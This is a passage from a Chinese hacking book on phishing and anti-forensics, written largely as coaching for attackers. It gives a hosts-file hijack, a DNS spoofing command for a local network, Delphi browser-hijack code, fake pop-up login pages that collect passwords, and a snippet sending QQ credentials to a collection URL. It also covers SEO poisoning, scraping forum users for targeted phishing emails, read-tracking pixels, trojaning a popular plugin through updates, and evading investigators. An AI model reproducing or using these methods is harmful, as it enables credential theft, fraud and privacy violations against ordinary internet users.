作为钓鱼者来说，阴险的手法就是修改主机与 IP 的映射关系。现在我来演示一个 Hosts 劫持，将《黑客手册》映射到百度的 IP 上，这样打开《黑客手册》时，实际上是打开了百度搜索。首先我们需要获得百度的 IP 地址，可以使用 CMD 下的 PING 命令。从桌面“开始”菜单选择“运行”，输入“cmd”并回车。现在我们进入了系统的 CMD 命令模式，在这种模式下输入 ping 百度的命令 `ping www.baidu.com`，我们看到百度的 IP 地址是 `220.181.37.55`，如图 2.9 所示。


图 2.9

然后打开文件夹 `C:\WINDOWS\system32\drivers\etc`，去掉 Hosts 文件的只读属性，并使用记事本打开，在内容的最后增加一条记录即可：`220.181.37.55   www.nohack.cn`。现在我们打开《黑客手册》网站（http://www.nohack.cn），会发现打开的其实是百度搜索网站了，如图 2.10 所示。


图 2.10

#### 6.6.2 内网中的 DNS 劫持

DNS 是指域名服务器（Domain Name Server）。在 Internet 上，域名与 IP 地址之间是一一对应的，域名虽然便于人们记忆，但机器之间只能互相认识 IP 地址，它们之间的转换工作称为域名解析。域名解析需要由专门的域名解析服务器来完成，DNS 就是进行域名解析的服务器。

简单地说，就是域名服务器用来解析域名和 IP 地址之间的映射关系。虽然我们不可以控制外网中的域名解析服务器，但可以控制内网的 DNS 劫持。DNS 欺骗劫持工具有很多，这里我用 zxerps.exe 演示内网的劫持，使内网任一用户打开 www.nohack.cn 均会被劫持到本机。

我在内网中的 IP 地址是 192.168.1.114，且只有一块网卡。zxerps.exe 要在 CMD 命令行下运行，这里的 DNS 欺骗命令就是：

```bash
zxerps.exe -idx 0 -ip 192.168.1.2-192.168.1.255 -hackdns www.nohack.cn|192.168.1.114
```

这里稍对命令参数进行一下解释：

- `-idx`：指定网卡，只有一个网卡就填 0；
- `-ip`：指定 IP 范围；
- `-hackdns`：指定要欺骗的网站与劫持到的 IP 地址。

命令成功执行后结果如图 3.1 所示。


图 3.1

接着需要在本机架设一个 WEB 服务器，以便将其劫持过来。另外还有其它的 DNS 欺骗工具，如 Cain 与 DNSHack.exe 等。那么 DNS 劫持能做些什么呢？比如当你成功获得企业内部的接入点时，你可以搭建一个伪造站点进行 DNS 劫持钓鱼。

#### 6.6.3 BHO，浏览器的劫持

“浏览器劫持”（Browser Hijack）是一种不同于普通病毒木马感染途径的网络攻击手段，它的渗透途径很多，目前最常见的方式有通过 BHO、DLL 插件、Hook 技术、Winsock LSP 等载体达到对用户的浏览器进行篡改的目的。这些载体可以直接寄生于浏览器的模块里，成为浏览器的一部分，进而直接操纵浏览器的行为，并将用户带到钓鱼站点。

那么 BHO 是什么呢？BHO 是微软早在 1999 年推出的作为浏览器对第三方程序员开放交互接口的业界标准，它是一种可以让程序员使用简单代码进入浏览器领域的“交互接口”（Interactive Interface）。通过 BHO 接口，第三方程序员可以自己编写代码获取浏览器的一些行为（Action）和事件通知（Event）。一旦攻击者定义了浏览器的恶意行为，就可以实现打开空白页时跳转到指定网站、劫持域名指向等。

具体的实现方式就是使用 Delphi 编写一个 BHO，请看如下代码：

```pascal
procedure TTEAdvBHO.DoBeforeNavigate2(const pDisp: IDispatch; var URL,
  Flags, TargetFrameName, PostData, Headers: OleVariant;
  var Cancel: WordBool);
begin
  if URL='http://www.nohack.cn'
  then begin
    Cancel:=True;
    URL:='http://www.baidu.com';
    (pDisp as IWebBrowser2).Navigate2(URL, Flags, TargetFrameName, PostData, Headers);
  end;
end;
```

有编程基础的读者朋友们可能都理解这段代码，是使用 if 语句判断：如果浏览器输入的网址是 http://www.nohack.cn，那么均会转到百度主页，以达成 BHO 劫持。

#### 6.6.4 搜索引擎的 SEO 劫持钓鱼

目前主流的网络搜索引擎有 Google、百度、Yahoo 等，它们很方便地为用户提供了网络资源搜索服务。**何谓 SEO 优化呢？就是通过优化网站提高网站在搜索引擎中的排名，从而获得更多的访问量。**

大多数的钓鱼攻击都处于被动，比如邮件钓鱼时，需要自行搜集大量电子邮箱发送邮件。显然，如果通过搜索引擎提高我们伪造站点的搜索排名的话，不但能给我们带来更多的流量，还会带来更多有针对性的被钓者。

同样，利用 SEO 劫持也可以用来传播病毒。例如，在巴基斯坦前总理贝·布托夫人被刺杀不到 12 个小时后，黑客即开始利用这一热点事件进行病毒传播。当用 Google 引擎搜索 “Benazir Bhutto” 时，排名第三的某英文网站经证实已被植入病毒，即 “Hack.Exploit.Script.JS.Realplayer.b” 和 “Trojan.DL.Script.JS.Agent.lmj” 这两个病毒。用户浏览该网站后就会中毒，中毒电脑会从网上自动下载其它病毒，并且 Google 自身的安全检测系统没有显示病毒警示信息。

由于布托夫人遇刺已经成为全球关注的焦点，很多用户将通过 Google 等搜索引擎搜索查阅相关资讯，估计有大量用户因此染毒。并且，带毒网站在雅虎等引擎的排名也非常高。

那么影响搜索引擎排名的因素有哪些呢？你可以参考图 3.2 所示的表格。

| 影响因素 | 说明 | 如何做？ |
|---|---|---|
| 域名与主机 | 域名对排名影响较小，一个易记的域名是个不错的选择。主机速度比较稳定即可。 | 比如有关病毒的网站，域名可用：vrius.com |
| 关键字 | 很重要，用户是通过关键字找你的网站的。具体表现在关键字的密度与分布。 | 可搜索“十大关键字”，然后查看网页下方的“更多相关搜索”即可。 |
| 网站目录结构 | 选择适当的 WEB 程序，即优质的文章与博客程序，并将动态网页静态化。 | 如 Wordpress、PJ 博客等 |
| Title 与 Meta 标签 | 同样也很重要，维持在 20 个字以内，不要重复。 | 如“黑客社会工程学，新书预告” |
| 网站维护更新 | 不要复制他人完整内容；通常要编辑、重新改动或是加备注。保持质量并经常性地更新。 | 可以参考“鬼仔 blog”的博文：www.huaidan.org/blog |
| 链接 | 即导出链接、内部链接、外部链接的优化。 | 保持合理即可。 |


除了基本的影响因素外，我们还可以用哪些方法提高站点排名呢？这里针对国内搜索引擎网站 www.baidu.com（百度）进行几点说明。

### 利用不公正性

众所周知，百度搜索排名是不公正的，搜索的结果通常会指向百度自家的百度知道、百度空间、百度百科等，因此我们可以直接注册百度空间放入恶意链接，并不断在百度相关的服务子站上发布留言、评论等，引导更多人访问这个空间中的链接。如果你想更快速地传播恶意链接，可以使用批量回复工具向百度空间发布更多评论来吸引人点击。

### 发布最新且热门与稀有的内容

发布与热门的、用户搜索次数最多的关键字相关的信息会很快获得不错的效果。你可以参考当前搜索引擎中最新最热门的搜索资源，比如 2008 年奥运会期间，很多人会关注奖牌榜的排名，谁是第一名，拿到多少奖牌等。另外，稀有的（即相当少的）资源信息也是很吸引人浏览的，比如发现如何将 3000 元的电脑卖到 9000 元的销售方法，呵呵。

### 网站排版格式及导航清晰

可以采用 DIV+CSS 方式减少网页垃圾代码，再就是网站布局分布醒目；关键字靠前，可以利用导航栏、tag 不断细分出子类。最后，适当使用富文本格式进行内容编辑，如将字体加粗、加色、设置下划线等，甚至醒目也可进行字体格式化。

### 6.7 精确钓鱼攻击策划秘籍

如何达成 100% 的高钓鱼攻击率是所有钓鱼者感兴趣的话题。在本节将提出高级的钓鱼思路方案，将“欺骗”发挥至极致。一直以来，大多数攻击者都遇到过一个问题：一些不高明的钓鱼手法可在尚未正式攻击之前就难产，这就是生存压力！

生存压力将受很多因素影响，从预谋→策划→钓鱼攻击；每一个步骤都必须包含精心设计的圈套，而这个圈套从最初的引诱、迷惑至采取高明的钓鱼技术，整体的计划很重要。

#### 6.7.1 人们喜欢怎样的钓饵？

在说“钓饵”之前我想告诉你一个惊人的秘密：中国是全球最容易受到钓鱼攻击的国家。影响因素多为人均教育素质、庞大的人口、民族习惯与法律缺陷，超过 70% 的人群将网络用于娱乐，而非学习。

中国有 13 亿人口，约占世界人口的 1/5。在 2007 年 12 月 31 日 CNNIC 的调查中，我国网民总人数达到 2.1 亿人，2008 年中国网民全球第二，并且这个数字保持高速增长。

心理学攻击那部分，我提出人类行为一个最明显的弱点，即“相似才相帮”，还包括模仿对方行为以产生心理共鸣响应。也就是说，人类喜欢按自己的喜好以及对相似于自己的事表示兴趣，并且这件事必须符合他们的价值观。

大部分的钓鱼者都忽略这一影响因素，即只管搜索、整理出数百万的电子邮件地址再批量群发，但是 100 封欺骗邮件究竟有多少人上当呢？——1 个。

> “我喜欢 30 分钟的闪电式钓鱼，而不是 30 小时相当麻烦的钓鱼手法！”

“你喜欢 3 天领到 30 张支票，还是 30 天领到 3 张支票？”

很明显，结果都取决于前提完善的计划。

在开始钓鱼攻击之前，你得问问自己：人们喜欢怎样的钓饵呢？很简单，我们需要调查数据作为评估钓鱼攻击的标准方案，该调查数据用以解决以下问题：

- 1. 中国互联网用户群有哪些特质？（年龄范围、教育程度、平均资产、网络环境……）
- 2. 亿万网民关注于互联网何种服务？（游戏、音乐、网上交易、交友、论坛……）
- 3. 网络事件给中国网民带来何种影响？（如事件：华南虎、艳照门。影响：好奇、娱乐）

上述数据纠正了一个错误观点：钓鱼攻击不局限于金融站点，也不局限于账号盗取，深层次的攻击表现在钓取用户隐私牟取暴利（如出售用户信息数据库给销售者，让商家用以推广产品等等），配合诈骗行骗骗取钱财，使得攻击空间变得更加多样化。

调查数据实质起了怎样的作用呢？举个例子，著名调查公司 AC 尼尔森的一项调查结果为：在中国，最受欢迎的网上商品是书籍，56% 的网上购物者选择购书，中国网上购书的比例全球最高。从攻击者的角度来思考，56% 的购物者多属于年轻群体，我们可以伪造卓越网上书店作中间人（man-in-the-middle，MIM）攻击，即转移卓越网的交易订单从而钓取用户资料。

获取调查数据的途径除了可从国外 AC 尼尔森（www.acnielsen.com.cn）调查公司获知，也可从国内 CNNIC（www.cnnic.cn）网站获取。同时，门户站点的在线调查与投票数据不可忽视，例如，新浪网为 CNNIC 开设了互联网调查专题，提供的数据值得我们注意，如图 3.3。细看 CNNIC 调查数据时，我们发现并不能完整再现互联网 2 亿用户的调查情况，而搜索引擎归类整理的数据填补了这一缺陷，方便动态查看网民的需求。例如，Google 提供了谷歌热榜（www.google.cn/rebang），百度提供了中文搜索风云榜（top.baidu.com），雅虎提供了搜索排行榜（top.cn.yahoo.com），迅雷提供了下载搜索排行榜（www.gougou.com/rank/tops.html）。这一有效数据可方便我们随时掌控互联网动向，一点风吹草动就是一个明确的攻击机遇，如图 3.4。


#### 6.7.2 花样百出的钓鱼邮件制造

“钓鱼邮件还能有什么花样？不就像在论坛发帖那样吗？”不！如果你忽略了一些细节，你还不是一位合格的钓鱼者。钓鱼邮件作为传播伪冒网站的一大途径，其重要程度是不能草率处理的。我们将讨论几个特别的技巧来实现增加邮件查看率的方法，即邮件前置、诱惑性标题、精妙的邮件正文、邮件跟踪调查等。

##### 6.7.2.1 邮件前置

有什么办法可以让钓鱼邮件总处于用户收件箱的最顶端呢？很简单，修改系统时间，让发送的邮件总在收件箱里面排在第一位。

例如，我修改系统时间 3 次，每次都向 lizaib@163.com 发送一封邮件，第一次为 2008 年 3 月 26 日，第二次为 2010 年 3 月 26 日，第三次为 2007 年 3 月 26 日。按照邮件正常接收方式，其邮件排序应依次为 2008 年、2010 年、2007 年，但 163 邮箱的邮件排序是按照时间大小排序的，即排序为 2007 年、2008 年、2010 年，很有趣吧？2010 年的邮件在收件箱中排第一位，如图 3.5。


令人沮丧的是，这种方法不一定适用于所有的邮箱，至少 QQ 与 Gmail 的邮箱测试失败。

## 第六章 网络钓鱼攻击

##### 6.7.2.2 诱惑性标题

想让邮件更有吸引力的话，我们就得学习记者工作中的优秀技巧。有些记者所发的新闻稿、采访通常没有实质的内容，但他们会在新闻稿上添加一个令人感到有兴趣、好奇的标题，包括一些断章取义的技巧都值得我们学习，这里将那些方法都列出来。

### 揭隐私

这种技巧可经常在娱乐新闻中看到，即明星的隐私、爱好等。例如新闻标题“《士兵突击》首爆丑闻，班长史今也当第三者”，这是典型的博取眼球的炒作。给攻击者的提示：一部刚刚火起来的电视剧或是明星，不管是小道消息还是未经证实的信息，都可以模仿记者的炒作。

### 夸张

利用人的想象力将普通的事件涂上一层色彩。例如新闻“工业信息部第一刀砍向垃圾短信”，我们再比较“信产部治理短信SP”这条新闻，你现在感觉哪条新闻有趣呢？夸张手法可以多样，例如将“《黑客手册》幕后王牌编辑现形记”作为标题，怎么样？很夸张吧。

### 安全威胁

人们关心那些影响自己生命、安全等威胁的事件。如果我给一张你的班级合照，你一定会先从照片中寻找自己在哪里。人最关心什么？——最关心自己。你还能回忆一些早期的钓鱼案例吗？他们往往给予强硬信息来威胁人们，如“客户，如果您不更新账户的话，您的支付宝余额将自动扣除全部金额。”，从而使用户按照其要求填写敏感资料。

### 断章取义

用以引起人们的争议，即与人们的内心价值观作对，人不喜欢看到与自己价值相矛盾的事件。例如李开复先生对网媒的断章取义表示谴责，一段采访标题竟然被网媒修改N次并转载，如这个标题：“李开复：中国学生无思想”。这样，被人指责自己无思想是令人痛恨的事，并且这件事会一直在脑中留下深刻印象。

诱惑性标题实际上是在和用户玩“文字游戏”与“数字游戏”的陷阱，玩得精妙，你能做的事情就更多。例如邮件标题“淘宝系统故障导致百万商品丢失，律师建议淘宝用户尽快登录截取证据理赔”，其中包括夸张、安全威胁等手法，只需一小段内容或是超链接都可将用户引至伪冒站点，至于怎样利用伪冒站点进行发挥就看自己的能力了。

##### 6.7.2.3 精妙的邮件正文

有个故事，房地产大亨助理小王接待赵市长和若干官员在酒店就餐，席间小王表现出很大的诚意，但第二天，小王没有拿到政府的公开招标资格。大家知道这中间出了什么问题吗？——小王在席间没有向来宾介绍赵市长。同理，我们发送邮件的时候没有使用好明确的称呼，也会造成邮件利用率的降低。请大家比较一下这两封来自淘宝网的邮件，其前后的称呼有什么差异吗？

|  | 内容 |
|---|---|
| 第一封邮件： | 尊敬的客户您好：<br>因系统故障的原因，您需要登录淘宝网核实账户信息。 |
| 第二封邮件： | 尊敬的Packr客户您好：<br>您最后一次的登录时间为2008年1月2号，地点：长沙市。由于系统故障，我们需要核实您的账户信息。 |

在第二封邮件中，我们给出了用户更多的真实信息，使得用户会这样想：这封邮件怎么知道我最近登录了淘宝网的信息呢？一定是淘宝网记录了我的信息，邮件应该是可信任的。好啦，我们再说说第二封邮件是怎样制造的？注意到邮件中的粗体字符了吗？——这是读取了Cookie的效果，即name、time、IP的信息，而前提是我们得事先窃取到用户的Cookie信息。

如果你不想很麻烦地窃取Cookie的话，不妨试试另外的一种方法——利用论坛个人信息。例如攻击目标针对天涯用户群，那么我们可以先查看一个用户论坛最基本的信息，如图36。


图36

注意到方框中的信息了吗？操作方式很简单，最好编程实现，首先抓取天涯社区的全部用户超链接，并依次递归读取用户的注册日期、最后登录日期、主题数、回复数、积分信息等建立天涯用户数据库，数据库信息最好再次过滤，不将天涯管理者列入名单，然后再建立邮件群发模板，例如：

```text
亲爱的 &username，您好：
这是天涯管理团队给&username发送的账户验证信息，请确定下述的信息是否正确？您的注册时间为 &time，积分 &score，登录次数 &login，信息正确无误吗？天涯管理团队强烈建议你登录 http://www.tianya.name 核实信息。
此信息于2008年3月3号截取，天涯管理团队
```

在模板中，其中的username、time、score、login变量依次表示从天涯用户数据库读取信息并制作备份，请注意，这是典型的有目标、有针对性的钓鱼攻击。当受害者收邮件时，面对提供的真实信息通常深信不疑，并登录伪冒的天涯站点。

##### 6.7.2.4 邮件跟踪调查

我们能够在主机上开启邮件群发器连续24个小时发送数百万封钓鱼邮件，难免很想知道究竟有多少邮件被用户所读取，这样才能方便攻击者不断改善钓鱼手法以增强成功性。有什么方法能够知道用户是否阅读邮件信息呢？

有的！大家都知道图片文件，当打开图片的URL链接时，实际就是向图片存储服务器提交了一次请求，如果将图片的请求来源信息记录，这不就是简单的邮件跟踪了吗？

一个很有趣的国外网站提供了这种服务，SpyPig（间谍猪），它可以跟踪你的邮件是否被读取，而我们只需将间谍图片放入钓鱼邮件隐藏起来即可，下面为详细的操作步骤。

先打开SpyPig网站 www.spypig.com，在网页的Step1输入框中输入你要收取跟踪信息的邮箱地址，这里为lizaib@gmail.com；Step2输入框中输入你获取跟踪信息邮件的标题名；Step3处选择要生成的间谍图片，白色图片隐藏效果更佳。我选择第3个图片，同时再点击下方按钮生成间谍图片，并复制间谍图片的URL地址，如图37。

接下来仅需将间谍图片插入到钓鱼邮件中即可，这里我使用QQ邮箱发送间谍图片到163邮箱，并登录163邮箱查看QQ发送的邮件；此时我们登录的信息会让间谍图片记录下来。


图37

我们再收取间谍猪截获的信息，登录 lizaib@gmail.com 邮箱后出现了 SpyPig 的新邮件。对我们感兴趣的信息有 Viewed（查看次数）、Recipient IP（IP地址），并且每有一个查看者都会自动发送跟踪信息，如图38。


图38

#### 6.7.3 强势的伪冒钓鱼站点

当一种攻击并不强势时，不会获取到期望的效果；相反地，不小心的粗心大意可让自己陷入绝境。钓鱼攻击真正的目的是什么？窃取用户信息！从攻击者的角度来看，有效率地获取信息才是王者之道，这个“道”中就有“强势”。

##### 6.7.3.1 弹出窗口

我们先看看早期的弹出窗口实现方式，首先给用户一个链接地址，例如我在 Google Pages 放置了一个邮件中的链接 http://lizaib.googlepages.com/黑客手册，如图39。


图39

其中引向弹出窗口的页面为pop.html；其作用为载入钓鱼网站，并弹出登录窗口，代码如下：

```html
<html>
<head>
<title>弹出窗口演示</title>
</head>
<META HTTP-EQUIV="Refresh" CONTENT="0 URL=http://www.cohack.cn/">
<SCRIPT language=JavaScript>
if (window != top)
{
    top.location = window.location;
}
</SCRIPT>
<BODY onload="window.open('login.html','popup','top=150,left=250,width=250,height=200,toolbar=no,scrollbars=no,resizable=yes')">
</BODY>
</html>
```

Content="0"意味着在重定向至《黑客手册》网站（这里假设为钓鱼站点）等待时间为0秒，并且调用了弹窗login.html页，login.html的内容为：

```html
<html>
<head><title>《黑客手册》网站</title><meta http-equiv="Content-Type" content="text/html; charset=gb2312"><style type="text/css">
<!--
body {
    margin-left: 0px;
    margin-top: 0px;
}
-->
</style></head>
<body bgcolor=white>
<p></p>
<p>
<form method="GET" action="接收用户数据页">
用户名 <input type="text" name="username" size="20"><br>
密  码 <input type="password" name="password" size="20"><br>
<input type="submit" name="Submit" value="提交">
</form>
</body>
</html>
```

现在点击钓鱼链接时，pop.html定向于黑客网站，并调用了弹窗login.html。对于没有上网经验的访问者通常都会被弹窗误导，如图40。


这种方式的缺陷非常明显，多数的浏览器与工具条都可以通过设置来禁止这种自动性的弹窗。还有一种将网址隐藏的方式就是对网页窗口全屏化，使用户无法窥知网址；但缺陷是会让用户起疑心。高明的手法是使用加强式的script劫持函数来达到网页全屏的效果，其脚本代码如下：

```html
<html><body>
<a href="#" mce_href="#" onClick="my_function()">全屏窗口</a>
<script language="">function my_function()
{
    var targeturl='http://www.nohack.cn';
    newwin=window.open('','','noscrollbars');
    if(document.all)
    {
        newwin.moveTo(0,0);
        newwin.resizeTo(screen.width,screen.height);
    }
    newwin.location=targeturl;
}
</script>
</body></html>
```

##### 6.7.3.2 无坚不摧的服务器

在Windows平台中架设钓鱼服务器很容易，甚至可以说是动动鼠标就可以建立钓鱼站点；但实际上，在Linux平台中架设才是完善的解决方案。开源系统的优势是可扩充性强，相对于Windows平台来说，建立的钓鱼站点运行稳定，并且安全性强。一般HTTPS中间人攻击的操作最好是在Linux平台完成；同样地，为了使钓鱼站点生存周期更长，逃脱跟踪取证与快速置换域名，可以考虑在国外购买服务器以使钓鱼站点无坚不摧。

现阶段国外的金融站点都启用相对更加安全的手段，包括数字证书与签名。很难说清高明的钓鱼手法为什么越来越复杂，从早期典型的伪装至现今的劫持手段，当一件事超过预期带来庞大的效益时，人们便会迷失在欲望中。

虽说本文是让初学者易于入手而忽视说明Linux平台的钓鱼，但学习毕竟是循序渐进的，先简单再复杂，这是一个领悟的过程。


在本小节将就个人的经验讲述新式的钓鱼攻击手法，虽然我不能保证日新月异的网络或许会有更多形式的钓鱼手法，但有一点可以确定，新的渠道钓鱼手法会越来越多。当高速的无线技术使你能与远方的朋友视频通话时，我确定你的朋友会被攻击者劫持……并钓鱼。

#### 6.8.1 软件程序的谎言

这年头，程序染上流氓软件的习性后也学着骗人了，比如“QQ空间互踩”这个程序。很奇怪，用户输入QQ号码与密码后提示“QQ空间正在互踩中……”，但不到半小时，QQ号码就被盗了。这里我给大家看一个简单的钓鱼软件“刷Q-ZONE人气助手”，你能从中找出一些问题吗？如图41。

这个工具刷人气是假，盗号是真！当点击“开始刷空间咯”时，它会自动将数据提交到一个模拟QQ账号信息的网址上去。这种工具用VB很容易编程实现，关键代码就下面两行：


图41

```vb
Private Sub Command1_Click()
WebBrowser1.Navigate "http://接收QQ账户信息的网址"
```

OK，现在回到软件钓鱼的层面上，上述钓鱼程序有很多的不足，有经验者一眼就会看出问题。其实，要制作一个优秀的钓鱼程序是需要花费成本的，包括用时间与精力来编写、维护程序。因为钓鱼程序要做两件事，一是讨好用户，二是暗中窃取用户信息。

讨好用户的话，这个钓鱼程序的功能必须让用户对它有粘性，即经常会使用，传播起来更快。我的方法是，制作娱乐性极强的轻便软件，例如百度HI聊天软件非常易于二次修改、打包，也就是说，我们可以开发更棒、更受用户欢迎的插件来讨好用户。

因为现阶段的百度HI缺乏一些人性化的设计（至少在我写本章的时候觉得，呵呵），如百度群不能区分男女ID，而且它的主程序与DLL文件的资源都易于修改，可以替换图片。网民喜欢能够自定义的软件，因此这个插件可以帮用户对软件进行定制，包括弄成“XXX百度HI专版”等等。

接下来进入第二个阶段，这个易受欢迎的插件会大规模传播，你最好事先给插件提供升级接口。当使用者越来越多的时候，用户的警惕性也越来越低，甚至都可以接受插件的信息调查。这个时候可利用升级程序将藏有钓鱼性质的插件替换掉，其功能性质可以是键盘记录软件、木马、病毒等。经过漫长的放长线钓鱼，可一夜之间使数百万台电脑陷入灾难！

有关百度HI程序的资源修改方式我已实验过，开发这样的插件不是难事，还可以以娱乐性的规则继续向前延伸，包括游戏外挂、音乐助手等。因为，如果你愿意将时间与精力大量投入，软件钓鱼攻击将比网站钓鱼更具危害性。

## 6.8.2 高利润的SMS钓鱼攻击

现在手机非常普及了，大家也许都遇到过一些相同的事件，比如每天可能被迫收到垃圾短信，像本地酒店打折、免费办证等。然而，你知道垃圾短信为何无法禁止吗？因为通信运营商不愿意丢掉这块大肥肉！说得明显一点，不法的SP，在他们的关照下才会如此猖獗。这里引用CCTV曝光分众传媒的一则新闻摘要：“所有的隐私泄露都不及垃圾短信所带来的威胁。”

### 黑客社会工程学攻击

电视画面上，一栋普通居民楼里，一个小伙子正在熟练地操作电脑，密密麻麻的数据线上连接着30个黑色的盒子，这就是“短信群发器”。每个群发器每小时可发送600条短信，30个黑盒子一小时就可以发送18000条，如此计算，一天发送量高达43万条。

一些公司在出售群发器的同时，还以低廉的价格出售手机用户资料，资料文件中包含了详细的企业名称、法人代表、经营范围、注册资金、手机号码、办公地址等各种信息。

信息的来源有多种渠道，让我帮你回忆一下：当你高考完毕之后，是不是收到一大摞的学校招生宣传单？这是因为你的学校或教育局泄露了你的信息；你有没有试图通过从电视上的广告发送信息下载彩铃？很有可能你还会收到其他的SP短信；你有报考一些考试吗？司法局可能会将你的信息送给了司法培训机构；你有没有进过一些QQ销售群？电话营销群？群里是否有人经常向大家推销用户信息？如图42。


图42

为什么会出现这样的问题呢？因为中国没有隐私法！一旦没有修订好完善的法律，这一缺陷便发挥了它的危害性。对于短信群发，最主要的问题在于监管部门没有监管运营商，因为那才是根源！这里的SMS短信钓鱼我们并不提倡，只作为一种思路给大家思考。

## 案例攻击与应用——帮MM找回被盗QQ

再次感谢fhod提供的案例（帮MM找回被盗QQ），这是他早期使用钓鱼网站找回QQ号的经过。不得不说，他的忽悠功夫相当酷！另一篇《揭露“QQ中奖网络诈骗”全过程》是Shude朋友提供的，在此对Shude致以特别的感谢，认识你真是我的荣幸！

在这两篇案例中再现了网络钓鱼的威胁，钓鱼者是如何做到的呢？钓鱼程序又有哪些不足点呢？我们一起来看看吧！

## 6.9.1 帮MM找回被盗QQ

下班回家洗衣，MM打电话来哭着说QQ被盗了，让我一定要把QQ找回。我开始没怎么肯定，就说试试看吧，然后接着洗衣服去了……

一会儿回来打开电脑登录自己的QQ，看到QQ上的盗号者上线了……哈，看了这么多的社会工程学资料，现在也该是大显身手的时候了！

下面几张图片是我和盗号者的聊天记录，“&★!星☆”是我的QQ昵称，另一个“康曼”便是被盗的QQ了。

如图43所示，我编了一个理由“刷QQ币”，没想到盗号者居然上当了！于是我便问他是自己刷QQ币，还是我来刷，如图44所示。


图43


图44

盗号者说想自己来充，于是我便告诉他如何充。只要登录网站后就可以刷QQ业务了，这个网站实际是我做的钓鱼网站，盗号者居然天真地登录充值了。当然，他的QQ号登录密码也被偷偷地记录了下来，如图45所示。

接着，我去查看钓鱼网站记录下来的密码，嘿嘿，密码成功记录了，如图46所示。


图45

图46

既然密码已经拿到了，我便把盗号者的QQ密码改掉，并终止了对话。看！图47就是伪造的刷QQ业务的钓鱼网站。


图47

就这样，我很顺利地帮MM从盗号者手上找回了QQ。

> 这个过程唯一的关键点不是钓鱼网站的精妙，而是来自于人的欲望。钓鱼网站没伪装到底，钓鱼程序放在网站的二级目录中，有经验的人可直接去掉网址的“qq”目录进行检验，可疑度还是很高的。但是，人们为何都会去尝试并告诉自己可能有免费的赠送呢？不是因为无知，而是总被表面上的事物蒙蔽。

## 6.9.2 揭露“QQ中奖网络诈骗”全过程

某日中午在上网的时候，突然有人加我QQ，号码为178609380，昵称为：【后台提示】。我通过验证后，他发来消息说我中奖了，如图48所示。


图48

一看就知道是假的，看了下IP（我使用的是显IP的QQ，会不会被TX抓啊？）：是海南的（奇怪，腾讯的老窝不是在深圳么？）……之前看新闻知道，在海南那边有好多网络诈骗集团……而且那些集团还专门雇用那些在校的未成年学生帮他们实行犯罪活动……没想到今天我也碰上了！由于很好奇，想看看他们是怎么骗人的，所以就“以身试法”了，哈哈……

一开始想直接打开他们的网页，但是又怕真的“中奖”了，所以还是小心点好。我选择了使用虚拟机的 Linux 系统进入，如图49所示。


图49

一进页面就要我输入验证码，好吧，输入他们发给我的“2008”看看，如图50所示。果然“真的中奖”了！！如图51所示。


图50

图51

那些页面还做得真有模有样啊！如图52、图53所示。“往下一步”看看……哇，好让人心动的奖品啊！如图54所示。赶紧点击“下一步”去填资料了，如图55所示。

## 第六章 网络钓鱼攻击

### 混淆社会工程学攻击


嘿嘿，果然要这些东西……大家明鉴！如图56所示。于是我去申请了个新的 QQ 来“陪”他们玩，如图57所示。


运气真好，马上就成了“今日幸运玩家”！如图58所示。

接下来，呵呵……居然叫我们汇款到那些账户上！如图59所示。


图58

图59

最后还有一些其他的说明，如图60、图61所示。


图60

图61

到这里大家都明白了吧？希望大家以后在使用网络的时候都小心谨慎一点……

> 如果你有经常上 CnBeta 中文业界资讯网站，我可以保证你绝不会上当的，因为你了解基本的网络安全意识，然而绝大多数的普通用户则有可能上当。

那么，钓鱼攻击的优点与缺点有哪些呢？我整理了一个大概，大家请看图62。

| 项目 | 内容 |
|---|---|
| （表格标题） | 优点 / 缺点对比 |
| QQ信息伪装 | 可通过点击消息、仿冒图标等方式迷惑用户 |
| 网站域名伪装 | 使用相似域名、子域名等方式误导 |
| 界面设计 | 仿真页面提高可信度 |
| 钓鱼 | 通过诱导信息骗取账号或资金 |
| 恶意IP发送信息 | 使用异常IP来源进行投递 |
| 图片与链接 | 利用图片或链接跳转隐藏真实目标 |
| 结果导向 | 诱导用户执行转账、输入凭据等操作 |

（注：表内细字较多，以上为可辨识概要）

图62

## 第七章 反侦查技术的对抗

- 黑客必备的反侦查能力
- 无法追踪的网络影子
- 数据隐藏与伪装
- 数据隐写技术
- 数据加密与破坏机制
- 数据窃取的方式
- 数字反侦证信息对抗


## 第七章 反侦查技术的对抗

### 7.1 需要必备的反侦查能力

这不是哗众取宠而吸引人注意的标题，全球各国从传统军事安全威胁焦点开始越发注意网络安全所带来的间谍与情报危机。尽管黑客们在互联网上拥有强势的资源控制能力，但不可抗力的事情仍会发生，比如利用手机协议的缺陷截获重要机构的数据，使用不恰当的 DDOS 导致 VOIP 语音服务瘫痪；心怀恶意或是因为利益窃取某个机构的软件源代码……事情总有两面性，他们对软件漏洞的挖掘是为了软件更加安全与稳定，但偶尔也会不加节制地娱乐，从恶作剧到恶意犯罪。

不管如何，黑客们对此必须谨慎，当你没有游戏重要的筹码时，最好不要轻易尝试。所以，黑客们最好做好自身安全问题的应对，其中就必须具备反侦查能力。

### 7.2 完美隐藏的网络影子

访问每台主机时都会留下 IP 地址记录，当网络管理员察觉网络流量有异常时，通常会从系统日志记录中查找攻击者的信息，作为日后警告攻击者的凭据。当然没有人笨到让管理员抓住尾巴，在我所认识的黑客朋友中，他们所施展的 IP 隐藏手段，让自己在网络中一直相安无事。

那么，他们是如何逃脱 IP 追踪的呢？

#### 7.2.1 代理：信息中转站

代理服务器是介于浏览器和 Web 服务器之间的另一台服务器，我们访问站点时先向代理服务器发出请求，代理服务器便会取回我们所要求的信息，这就意味着我们是通过代理服务器作为中间人而进行间接的主机访问。这样，被访问的主机所记录的 IP 就是代理服务器的 IP，而不是我们真实的 IP 信息，从而达到了 IP 隐藏的目的。

很多网络应用软件都提供了通过代理来访问外部网络，如浩方游戏平台、迅雷下载软件、IM 聊天等，它们同浏览器一样可通过设置代理 IP 匿名访问网络。

代理 IP 的寻找有多种途径，可自己用“代理猎人”这类工具进行搜索，或者使用网上免费的代理 IP。以下是每日更新代理 IP 的站点：

- 代理中国：http://www.proxycn.com/
- 纯真网络代理：http://www.cz88.net/proxy/
- 无名指工作室：http://www.8558.org/proxy/

代理按功能可以分为 HTTP 代理、FTP 代理、Telnet 代理、Socks 代理等类别。Socks5 代理支持 TCP 和 UDP 协议（用户数据报协议），还支持各种身份验证机制、服务器端域名解析等，我们一般都使用以 Socks5 作为主协议的 SkSockServe 来做跳板，这将在后文介绍。

